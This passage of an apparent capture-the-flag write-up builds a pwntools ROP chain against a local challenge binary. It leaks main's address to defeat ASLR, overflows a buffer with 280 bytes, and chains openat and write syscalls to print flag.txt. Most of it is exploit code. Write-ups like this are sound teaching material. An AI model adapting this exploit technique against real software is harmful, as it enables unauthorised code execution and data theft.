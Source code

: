 ### Printing the flag
Now we will simply write this buffer to the standard output. Luckily, everything here is straightforward:
```c++
write(1, name_address, 50);
// 1 -> code for stdout
// name_address -> address of the buffer
// 50 -> number of bytes to write
```

We can reuse the gadgets from earlier to produce:
```python
# 1 is the rax code for write
rop.raw(rop.find_gadget(['pop rax', 'ret']))
rop.raw(1)

rop.raw(rop.find_gadget(['pop rdi', 'ret']))
rop.raw(1)
rop.raw(rop.find_gadget(['pop rsi']))
rop.raw(exe.symbols['_ZL4name'])
rop.raw(0x0)
rop.raw(rop.find_gadget(['pop rdx']))
rop.raw(50)
rop.raw(rop.find_gadget(['syscall', 'ret']))
```

Now we will simply construct the payload and send it:
```python
payload += rop.chain()
payload += b"\n"

p.send(payload)

# The p.interactive() call is crucial to ensure that the subprocesses
# stdout call gets linked to the terminal. Otherwise, you wouldn't see the
# printed flag
p.interactive()
```

This gives us the final exploit:
```python
from pwn import *

exe = context.binary = ELF("./chal")
p = process("./chal")

print(p.recvuntil(b"?\n"))

p.send(b"flag.txt" + b"\x00" + b"\n")

# Now we will extract the main address
print(p.recvuntil(b";)\n"))
raw_addr = p.recvuntil(b"\n")[:-1]
main_address = int(raw_addr, 16)

# Set the base address for the context
exe.address = main_address - exe.symbols['main']

payload = b"\x90"*280

rop = ROP(exe)

# openat gadget
rop.raw(rop.find_gadget(['pop rax', 'ret']))
rop.raw(257)
rop.raw(rop.find_gadget(['pop rdi', 'ret']))
```